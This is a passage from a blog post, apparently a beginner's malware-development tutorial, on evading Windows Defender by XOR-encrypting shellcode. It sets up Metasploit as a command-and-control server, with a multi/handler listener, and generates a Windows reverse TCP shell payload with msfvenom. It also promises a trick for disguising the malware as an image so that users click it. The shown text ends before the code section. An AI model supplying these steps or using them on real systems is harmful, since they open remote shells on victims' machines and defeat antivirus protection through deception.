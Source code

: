 ```yaml
---
title: "Bypass Windows Defender With Xor Encryption"
date: 2024-04-22
---
```


# Prelude
---

If you're new in malware development, just like me you might've heard that it was possible to bypass windows defender with a simple encryption. 
I could not believe it, so I had to try it and why not put in a blog to describe my experience at the same time!
In this blog I will take you through it step by step. At the end, I will also introduce a clever way of fooling a user into clicking on our malware that will appear as an image.


# Environment Setup
---

If you want also want to perform this simple attack you will need to have to virtual machines
  - Windows Machine (victim)
  - Kali Linux or any other machine with metasploit on it (Attacker)


# Configuring your C2 (Command & Control)
---

Now, I know some of you will say what is a C2 or why am I considering metasploit as C2. Well, let me explain in this case metasploit will act as a command and control center because it will be used to issue commands to the compromised system and also, to receive data from them. Now that the air is cleared let's proceed!

- Start Metasploit Framework
  ```
  sudo service postgresql start && msfconsole -q
  ```
- Configure Listener
  ```
  use multi/handler
  set LHOST <HOST>
  set LPORT <PORT>
  run
  ```
- Generate shellcode
  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f c -o <name>.c
  ```


# Coding
---

Now for all my fellow hackers who likes programming, I know your hands are itching right now, but you can finally used them or maybe not since I will provide you with the code already written,
but you can still play around with it if you want to!




